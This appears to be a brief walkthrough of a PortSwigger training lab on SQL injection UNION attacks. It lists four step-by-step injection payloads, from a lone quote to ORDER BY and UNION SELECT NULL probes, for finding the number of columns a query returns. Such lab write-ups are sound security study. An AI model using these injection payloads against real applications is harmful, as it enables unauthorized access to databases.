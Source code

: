 # [SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Step - 1

---

```
'
```

Error because Single Quotes

Step - 2

---

```
'--
```

No MySQL

Step - 3

---

```
' ORDER BY 4--
```

Error because 3 Column

Step - 4

---

```
' UNION SELECT NULL,NULL,NULL--
```
